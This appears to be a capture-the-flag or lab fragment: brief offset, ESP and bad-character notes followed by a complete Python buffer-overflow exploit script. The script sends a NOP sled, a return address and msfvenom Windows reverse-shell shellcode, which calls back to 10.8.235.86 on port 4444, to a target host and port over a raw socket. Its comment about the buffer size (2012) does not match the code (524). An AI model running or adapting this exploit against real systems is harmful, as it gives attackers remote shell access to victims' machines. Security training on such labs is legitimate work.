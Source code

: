 offset : 514

ESP1 0028F930
badchars 1 :


CREATED SHELLCODE:

#!/usr/bin/env python

  

# Skeleton Buffer Overflow script

# usage python brain.py <targetIP> <targetPort>

  

import socket

import sys

  

rhost = sys.argv[1]

rport = int(sys.argv[2])

  

# uname = "yavuz"

  

# msfvenom -p windows/shell_reverse_tcp LHOST=10.8.235.86 LPORT=4444 -f c -b "\x00"

shellcode = (

"\xdb\xd8\xbf\xc8\xd2\x76\x8f\xd9\x74\x24\xf4\x5d\x33\xc9\xb1"

"\x52\x31\x7d\x17\x83\xed\xfc\x03\xb5\xc1\x94\x7a\xb9\x0e\xda"

"\x85\x41\xcf\xbb\x0c\xa4\xfe\xfb\x6b\xad\x51\xcc\xf8\xe3\x5d"

"\xa7\xad\x17\xd5\xc5\x79\x18\x5e\x63\x5c\x17\x5f\xd8\x9c\x36"

"\xe3\x23\xf1\x98\xda\xeb\x04\xd9\x1b\x11\xe4\x8b\xf4\x5d\x5b"

"\x3b\x70\x2b\x60\xb0\xca\xbd\xe0\x25\x9a\xbc\xc1\xf8\x90\xe6"

"\xc1\xfb\x75\x93\x4b\xe3\x9a\x9e\x02\x98\x69\x54\x95\x48\xa0"

"\x95\x3a\xb5\x0c\x64\x42\xf2\xab\x97\x31\x0a\xc8\x2a\x42\xc9"

"\xb2\xf0\xc7\xc9\x15\x72\x7f\x35\xa7\x57\xe6\xbe\xab\x1c\x6c"

"\x98\xaf\xa3\xa1\x93\xd4\x28\x44\x73\x5d\x6a\x63\x57\x05\x28"

"\x0a\xce\xe3\x9f\x33\x10\x4c\x7f\x96\x5b\x61\x94\xab\x06\xee"

"\x59\x86\xb8\xee\xf5\x91\xcb\xdc\x5a\x0a\x43\x6d\x12\x94\x94"

"\x92\x09\x60\x0a\x6d\xb2\x91\x03\xaa\xe6\xc1\x3b\x1b\x87\x89"

"\xbb\xa4\x52\x1d\xeb\x0a\x0d\xde\x5b\xeb\xfd\xb6\xb1\xe4\x22"

"\xa6\xba\x2e\x4b\x4d\x41\xb9\x7e\x9a\xa2\x6f\x17\x98\x34\x81"

"\xbb\x15\xd2\xcb\x53\x70\x4d\x64\xcd\xd9\x05\x15\x12\xf4\x60"

"\x15\x98\xfb\x95\xd8\x69\x71\x85\x8d\x99\xcc\xf7\x18\xa5\xfa"

"\x9f\xc7\x34\x61\x5f\x81\x24\x3e\x08\xc6\x9b\x37\xdc\xfa\x82"

"\xe1\xc2\x06\x52\xc9\x46\xdd\xa7\xd4\x47\x90\x9c\xf2\x57\x6c"

"\x1c\xbf\x03\x20\x4b\x69\xfd\x86\x25\xdb\x57\x51\x99\xb5\x3f"

"\x24\xd1\x05\x39\x29\x3c\xf0\xa5\x98\xe9\x45\xda\x15\x7e\x42"

"\xa3\x4b\x1e\xad\x7e\xc8\x3e\x4c\xaa\x25\xd7\xc9\x3f\x84\xba"

"\xe9\xea\xcb\xc2\x69\x1e\xb4\x30\x71\x6b\xb1\x7d\x35\x80\xcb"

"\xee\xd0\xa6\x78\x0e\xf1"

)

  
  
  

# Buffer was 2012 in this app, so 2012 times NOP, then the bad chrs, then another 20 NOP and then shellcodecomes.

payload = "\x90" * 524 + "\xf3\x12\x17\x31" + "\x90" * 16 + shellcode

  

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

c = s.connect((rhost, rport))

s.recv(1024)

s.send(payload + "\r\n")

data = s.recv(1024)

s.close()
	
	
	